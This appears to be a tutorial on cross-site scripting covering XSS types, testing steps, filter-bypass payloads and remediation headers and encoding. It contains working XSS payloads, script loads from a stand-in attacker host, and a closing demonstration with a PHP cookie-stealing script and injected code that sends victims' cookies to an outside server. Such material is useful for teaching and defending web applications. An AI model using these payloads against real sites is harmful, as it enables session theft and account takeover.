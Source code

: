 # XSS

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into trusted website.

XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

## Impact
Malicious script can access any cookies, session tokens, or other sensitive information

## Types of XSS
- **Stored XSS (Persistent XSS)**:
When an attacker injects malicious code into the vulnerable application and this content is permanently stored in a database. when victims visit a  vulnerable application page with the stored malicious code, that time their browser execute this code and victim get popup message.

- **Reflected XSS (Non-persistent)**:
When an attacker uses a malicious link, phishing email, or another social engineering technique to trap the victim into making a request to the server and this request contains malicious code. when victim click on link then browser receive a reply with the malicious code and executes it. 

- **DOM Based XSS**:
When the web application writes user input to the Document Object Model (DOM), then reads the data from the DOM and executes it in the browser.In DOM based XSS malicious code is not sent to the server which makes it difficult to detect by web application firewalls (WAFs).

## How to Test (Black Box Testing)
***1. Detect input vectors. For each web page***
- HTTP parameters
- POST data
- Hidden form field values
- Predefined Radio or Selection values

***2. Analyze each input vector to detect potential vulnerabilities***
- (greater than)>
- <(less than) 
- &(ampersand) 
- '(apostrophe or single quote) 
- "(double quote)
- e. g. <script>alert(123)</script>

***3. POC***
```
<script>alert(document.cookie)</script>
<script>alert(document.location)</script>
```

## HTML Filtered Content
- \n (new line) 
- \r (carriage return) 
- \' (apostrophe or single quote) 
- \" (double quote) 
- \\ (backslash) 
- \uXXXX (unicode values)

## Bypass XSS Filters 
Filters are based on a blacklist, they could not block every type of expressions

### e.g. payload’s:
***1. Different Syntax | Encoding***
```
" onfocus="alert(document.cookie)
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3cscript%3ealert(document.cookie)%3c/script%3e
```
***2. Bypassing non-recursive filtering***
```
<scr<script>ipt>alert(document.cookie)</script>
```
***3. Including external script***
```
<script src="http://attacker/xss.js"></script>
http://example/?var=<SRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

   - https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet (XSS Filter Evasion Cheat Sheet)
   - https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt
   - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

## ⛑️ Remediation     
### 1. Server-Side validation
   1. [x] ***X-XSS-Protection*** Header
   ```
   X-XSS-Protection: 0                           -> xss filter disabled
   X-XSS-Protection: 1                           -> xss filter enabled and sanitized the page if attack detected
   X-XSS-Protection: 1; mode=block               -> xss filter enabled and prevented rendering the page if attack detected
   X-XSS-Protection: 1; report=<reporting-uri>   -> xss filter enabled and reported the violation if attack detected
   ```
   2. [x] Use ***HTTPOnly*** cookie flag: `Set-Cookie: key=123081792183asjgdhasd; HTTPOnly`

   3. [x] Implement ***Content Security Policy***: `Content-Security-Policy: default-src: 'self'; script-src: 'self' static.domain.tld`
   It's a browser side mechanism which allows you to create source allow lists for client side resources of your web application, e.g. JavaScript, CSS, images, etc. CSP via special HTTP header instructs the browser to only execute or render resources from those sources

***Refrence:*** https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection

### 2. Client(Application)/Server side validation

   1. [x] HTML Encode Before Inserting Untrusted Data into HTML Element Content: `<body>...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.</body>`

   2. [x] Attribute Encode Before Inserting Untrusted Data into HTML Common Attributes: `<div attr="...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.">content`

   3. [x] JavaScript Encode Before Inserting Untrusted Data into JavaScript Data Values: `<script>alert('...ENCODE UNTRUSTED DATA BEFORE PUTTING HERE.')</script>'

   4. [x] URL Encode Before Inserting Untrusted Data into HTML URL Parameter Values:`<a href="http://www.website.com?test=ENCODE UNTRUSTED DATA BEFORE PUTTING HERE">link</a>`(when you want to put untrusted data into HTTP GET parameter value)

   * [XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
   * [DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
   * [Functions to Validate your Data](https://www.wordfence.com/learn/how-to-prevent-cross-site-scripting-attacks)


## XSS - Demonstration
Retrieve User Cookie Using XSS
1. Create ***steal.php*** file contect with below code.
```
<?php
$cookie=$_COOKIE['PHPSSID'];
$file=fopen('cookie.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```
2. Create ***cookie.txt*** file on same directory.
3. Host ***steal.php*** page publicaly which can accessible through internet.
4. Insert Script on Vulnerable Parameter.
```
<script>document.location="http://hostname/steal.php"</script>
e.g:
<script>document.location="http://192.168.88.128/steal.php"</script>

<img src=a onerror=confirm(document.location="http://192.168.88.130/steal.php?cookie=" + document.cookie;)>

```
